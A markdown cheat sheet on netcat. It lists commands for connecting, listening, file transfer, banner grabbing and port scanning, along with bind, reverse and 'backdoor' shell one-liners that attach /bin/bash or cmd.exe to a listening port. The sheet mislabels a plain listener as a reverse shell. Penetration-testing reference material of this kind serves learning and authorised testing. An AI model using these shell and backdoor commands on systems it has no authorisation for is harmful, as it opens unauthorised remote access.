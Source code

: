# Netcat

netcat is hackers swiss army knife which reads and writes data across network connections , using TCP or UDP protocols.

**Fundamentals use**

Cmd | Description
----|------------
nc `<ip>` `<port>` | connect to ip with defined port
nc -nvlp `<port>` | create netcat listener on local port.
* * * 
**File Transfer**

cmd | Description
-----|-------
nc -nvlp 4444 > incomming.exec | using nc to receive a file
nc -nv `<ip address>` 4444 < /file/path | using nc to transfer file.
* * * 
**Banner Grabbing**

cmd | Description
---|-----------
nc -n -v -w1 ipaddr start_port-end_port | grab the banner of services running on ip address.
* * * 
**nc shells**

cmd | Description
-------|-------
nc -nvlp 4444 -e cmd.exe | set up bind shell
nc -nvlp 4444 | set up reverse shell
* * * 
**Port scanning**

cmd | Description
----|------------
nc -n -v -z -w1 `<target ip addrs>` start-port end-port | tcp port scanning.
* * * 
**Backdoor shell**

cmd | Description
-----|----------
nc -l -p `<local port>` -e /bin/bash | listening backdoor shell on linux.
nc –l –p `<local port>` –e cmd.exe | Listening backdoor shell on Windows.

* * * 
**netcat cmd flags**

```bash
$ nc [option] [target ip address] [port]
```

cmd | Description
----|-------------
-l | listen mode
-L |Listen harder (supported only on Windowsversion of Netcat). This option makes Netcat apersistent listener which starts listening again after a client disconnects.
-u | UDP mode (default is TCP)
-p | Local port (In listen mode, this is port listenedon. In client mode, this is source port for allpackets sent)
-e | Program to execute after connection occurs,connecting STDIN and STDOUT to the program
-n | Don’t perform DNS lookups on names ofmachines on the other side
-z | Zero-I/O mode (Don’t send any data, just emita packet without payload)
-wN| Timeout for connects, waits for N secondsafter closure of STDIN. A Netcat client or listener with this option will wait for N secondsto make a connection. If the connectiondoesn’t happen in that time, Netcat stopsrunning.
-v | Be verbose, printing out messages onStandard Error, such as when a connectionoccurs
-vv| Be very verbose, printing even more detailson Standard Error
